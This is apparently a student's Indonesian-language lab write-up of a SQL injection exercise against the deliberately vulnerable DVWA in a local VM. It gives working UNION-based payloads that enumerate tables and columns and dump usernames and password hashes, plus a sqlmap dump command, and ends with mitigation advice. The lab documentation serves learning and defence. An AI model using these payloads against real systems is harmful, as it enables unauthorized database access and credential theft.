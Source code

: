 # SQL Injection Attack

## Project Overview

**Target:**

- Aplikasi web: DVWA (Damn Vulnerable Web Application)
- Server: Ubuntu 24.04 LTS dengan Apache2, MySQL, PHP

**Goal:**

- Melakukan eksploitasi SQL Injection untuk mendapatkan data sensitif, mendokumentasikan langkah-langkah dan hasilnya.

---

## Environment Setup

| Komponen | Versi / Tools             |
| -------- | ------------------------- |
| Target   | DVWA + MySQL di Ubuntu VM |
| Attacker | Kali Linux                |
| Tools    | Browser, sqlmap           |

- IP Target: `192.168.56.105`
- IP Attacker: `192.168.56.103`

---

## Langkah-langkah Eksploitasi

### 1. Login dan Konfigurasi DVWA

- Login ke DVWA dengan `admin:password`
- Set `DVWA Security` → `Low`

[screenshot halaman DVWA Security](dvwa-security.png)

---

### 2. Uji Basic SQL Injection

- Input pada User ID:
  `1' or '1'='1`
- Hasil: menampilkan semua user dari database.

[screenshot hasil injection](hasil-injection.png)

---

### 3. Enumerasi Database

#### a. Mendapatkan nama database

`1' UNION SELECT null, database() -- -`

[screenshot hasil database name](nama-database.png)

#### b. Enumerasi tabel

`1' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema=database() -- -`

[screenshot daftar tabel](daftar-tabel.png)

#### c. Enumerasi kolom tabel `users`

`1' UNION SELECT column*name, null FROM information_schema.columns WHERE table_name='users' -- -`
[screenshot kolom tabel users](kolom-tabel-user.png)

---

### 4. Dump Data Sensitif

- Ambil user & password hash
  1' UNION SELECT user, password FROM users -- -
  [screenshot dump user/password](dump-user-password.png)

---

### 5. Automatisasi dengan Sqlmap

`sqlmap -u "http://192.168.56.105/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=73q2oefkph1k37shqj7fi2l36i" --dump`

[screenshot sqlmap dump](sqlmap-dump.png)
[screenshot sqlmap dump csv](csv-dump.png)

---

## Rekoemdasi Mitigasi

| No  | Mitigasi                   | Tujuan                    |
| --- | -------------------------- | ------------------------- |
| 1   | Prepared Statements / Bind | Mencegah query injection  |
| 2   | Validasi & Sanitasi Input  | Input sesuai ekspektasi   |
| 3   | Hide SQL Errors            | Cegah informasi bocor     |
| 4   | Least Privilege DB User    | Batasi dampak exploit     |
| 5   | Gunakan WAF / IDS          | Blok otomatis payload     |
| 6   | Penetration Testing Rutin  | Deteksi celah lebih dini  |
| 7   | Update Software            | Tutup vulnerability lama  |
| 8   | Hardening Konfigurasi      | Minimalkan attack surface |

---

## Kesimpulan

Melalui uji coba pada aplikasi DVWA (Damn Vulnerable Web Application), saya berhasil mendemonstrasikan bagaimana serangan SQL Injection dapat dieksekusi untuk mendapatkan informasi sensitif dari basis data, seperti username, hash password, serta data tabel lainnya. Pengujian ini menunjukkan betapa rentannya sebuah aplikasi web jika tidak dibangun dengan praktik keamanan yang baik.

Dari hasil simulasi menggunakan sqlmap, terbukti bahwa parameter yang tidak divalidasi dan query yang tidak diamankan dengan prepared statements dapat dengan mudah dieksploitasi untuk mengeksekusi perintah SQL arbitrary. Hal ini dapat mengakibatkan kebocoran data, modifikasi database tanpa izin, hingga potensi eskalasi ke sistem operasi server.

Untuk menghindari risiko tersebut, sangat penting menerapkan langkah-langkah mitigasi yang tepat. Mitigasi utama yang direkomendasikan adalah penggunaan prepared statements atau parameterized queries dalam komunikasi dengan database, validasi dan sanitasi input pengguna, penerapan prinsip least privilege pada user database, serta rutin melakukan audit dan penetration testing untuk mendeteksi kerentanan sejak dini.

Dengan menggabungkan praktik pengembangan aplikasi yang aman (secure coding), konfigurasi sistem yang benar, penggunaan firewall aplikasi web (WAF), serta pemeliharaan berkala melalui update sistem dan testing, organisasi dapat meminimalisir risiko SQL Injection dan meningkatkan postur keamanan secara menyeluruh.

---

## Lampiran

- [DVWA Setup](dvwa-setup.sh)
- [CSV guestbook](sqlmap_dump/guestbook.csv)
- [CSV users](sqlmap_dump/users.csv)

---

## _Ditulis oleh:_

**Ibnu Hibban Dzulfikri**
LinkedIn: https://www.linkedin.com/in/ibnu-hibban-dzulfikri-b51a7824a

---
